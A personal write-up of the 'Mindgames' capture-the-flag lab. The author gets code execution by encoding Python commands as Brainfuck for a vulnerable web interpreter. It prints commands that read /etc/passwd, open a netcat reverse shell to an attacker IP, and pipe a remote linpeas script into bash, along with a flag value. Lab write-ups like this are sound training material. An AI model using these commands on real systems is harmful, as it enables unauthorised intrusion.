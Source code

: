 ```yaml
---
layout: post
title:  "THM - Mindgames"
date:   2020-07-03 18:00:00 +1000
category: hacking
---
```


## WARNING
This post contains rude words, and it's not my fault. Turn back now.

## Introduction
*No hints. Hack it. Don't give up if you get stuck, enumerate harder.*  

This machine is ranked hard, we'll see if I'm up to it...

## Ports
nmap says we've got 22 (SSH) and 80 (HTTP) only - so far so good, right?  
From the ttl (time-to-live) in nmap, we can guess it's a Linux box. nmap says it's running a Golang HTTP server, so that's a little different. Let's check it out.

## Webserver
*Sometimes, people have bad ideas.*
*Sometimes those bad ideas get turned into a CTF box.*
*I'm so sorry.*

*Ever thought that programming was a little too easy? Well, I have just the product for you. Look at the example code below, then give it a go yourself!*

*Like it? Purchase a license today for the low, low price of 0.009BTC/yr!*  

*Hello, World*

``
+[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[->+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>---.+++.------.--------.-[--->+<]>+.+++++++.>++++++++++.
``

Recognise this? It's something called Brainfuck. Yes, that's a thing. And on the website is a spot to submit your own code.

When we do trial some bf code, we can note that when we have an error, it looks like this:  

*Traceback (most recent call last):File "<string>", line 1, in <module>NameError: name*  

That's a python error, so we can guess that the bf code is being interpreted and run by python on the server. So perhaps we can make some valid python code, in brainfuck? 

## Python
We can install a brainfuck generator - also written in python - called [pybf](https://github.com/amrali/pybf) with pip, and then use it to generate code like this:

``
root@kali:/opt/tryhackme/mindgames# echo "import os;os.system('cat /etc/passwd')" | pybf -g -
``

Which gives this:
``
++++++++[>>++>++++>++++++>++++++++>++++++++++>++++++++++++>++++++++++++++>++++++++++++++++>++++++++++++++++++>++++++++++++++++++++>++++++++++++++++++++++>++++++++++++++++++++++++>++++++++++++++++++++++++++>++++++++++++++++++++++++++++>++++++++++++++++++++++++++++++<<<<<<<<<<<<<<<<-]>>>>>>>>-------.++++.+++.-.+++.++.<<<<<.>>>>>-----.++++.<<<-----.>>>----.++++.<<<<--.>>>>.++++++.------.+.<+++++.>-------.<<<<------.-.>>>--.--.>+++++++.<<<<<.>++++++++.>>>++++.>.<--.<<<.>>>>----.<--.>+++..++++.<+++.<<<<+++++++.++.<------.
``

And feeding that to the website gives this:
>root:x:0:0:root:/root:/bin/bash  
etc  
tryhackme:x:1000:1000:tryhackme:/home/tryhackme:/bin/bash  
mindgames:x:1001:1001:,,,:/home/mindgames:/bin/bash  

And in the same manner, we can get a reverse shell:

``
root@kali:/opt/tryhackme/mindgames# echo "import os;os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.10.123 1234 >/tmp/f')" | pybf -g -
``

I won't put the brainfuck output here, because hopefully you get the idea.

## Shell

And once we've got a shell, we can get the user flag:

>$ python3 -c 'import pty;pty.spawn("/bin/bash");'  
mindgames@mindgames:~/webserver$ cat /home/mindgames/user.txt  
cat /home/mindgames/user.txt  
thm{411f7d38247ff441ce4e134b459b6268}  

Then run linpeas:  

``
mindgames@mindgames:/dev/shm$ curl http://10.9.10.123:8000/linpeas.sh | /bin/bash
``

and ... more or less draw a blank.

## Failed Privesc

So this box used a custom webserver running under *server.service* and I thought maybe I could use that; either the binary might have some hardcoded credentials in it (spoiler: not that I could find), or perhaps I could try replacing the binary with something of my own?

We don't have the sudo password for the account - and I couldn't find it anywhere - so we can't use **systemctl restart** on the service (this requires sudo). However, we can do this:

1. Delete or rename the existing server binary
2. Make a new file to replace the binary - in my case I tried a bash script to start a reverse shell
3. kill -9 [PID] on the the service PID
4. wait for the service to restart and get our shell

Now I think this would help if the service was running as a more privileged user, but unfortunately it was only running as the same user we already had. And, it's pretty drastic since it kills the webserver, so you wouldn't do this unless you were desperate. It does get you a shell though, but it's no better than what we already had.

## Admit defeat

At this point, and after lots of enumeration, I admitted defeat and went and checked a write-up. Turns out the privesc requires a technique I hadn't seen before involving OpenSSL Engine and setting the SUID. Here's an explanation in another [writeup](https://hellrider9.github.io/writeup/mindgames/).

## Final thoughts

I'm relatively new at this; I don't know everything already, and that's okay. I cruised through the foothold pretty easily and got dead-ended on the privesc. That happens sometimes - the key is to learn something from the experience and keep practicing.
